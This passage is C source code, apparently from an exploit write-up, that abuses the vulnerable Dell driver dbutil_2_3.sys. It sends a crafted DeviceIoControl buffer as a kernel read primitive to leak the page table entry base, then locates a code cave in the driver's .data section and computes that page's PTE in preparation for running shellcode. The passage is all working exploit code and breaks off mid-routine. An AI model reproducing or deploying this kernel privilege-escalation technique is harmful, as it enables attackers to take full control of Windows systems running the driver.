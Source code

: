 ```c

	// Error handling
	if (driverHandle == INVALID_HANDLE_VALUE)
	{
		printf("[-] Error! Unable to obtain a handle to the driver. Error: 0x%lx\n", GetLastError());
		exit(-1);
	}
	else
	{
		printf("[+] Successfully obtained a handle to the driver. Handle value: 0x%llx\n", (unsigned long long)driverHandle);

		// Buffer to send to the driver (read primitive)
		unsigned long long inBuf1[4];

		// Values to send
		unsigned long long one1 = 0x4141414141414141;
		unsigned long long two1 = ntmigetpteAddress;
		unsigned long long three1 = 0x0000000000000000;
		unsigned long long four1 = 0x0000000000000000;

		// Assign the values
		inBuf1[0] = one1;
		inBuf1[1] = two1;
		inBuf1[2] = three1;
		inBuf1[3] = four1;

		// Interact with the driver
		DWORD bytesReturned1 = 0;

		BOOL interact = DeviceIoControl(
			driverHandle,
			IOCTL_READ_CODE,
			&inBuf1,
			sizeof(inBuf1),
			&inBuf1,
			sizeof(inBuf1),
			&bytesReturned1,
			NULL
		);

		// Error handling
		if (!interact)
		{
			printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
			exit(-1);
		}
		else
		{
			// Last member of read array should contain base of the PTEs
			unsigned long long pteBase = inBuf1[3];

			printf("[+] Base of the PTEs: 0x%llx\n", pteBase);

			// .data section of dbutil_2_3.sys contains a code cave
			unsigned long long shellcodeLocation = driverBase + 0x3010;

			// Bitwise operations to locate PTE of shellcode page
			unsigned long long shellcodePte = (unsigned long long)shellcodeLocation >> 9;
			shellcodePte = shellcodePte & 0x7FFFFFFFF8;
			shellcodePte = shellcodePte + pteBase;
```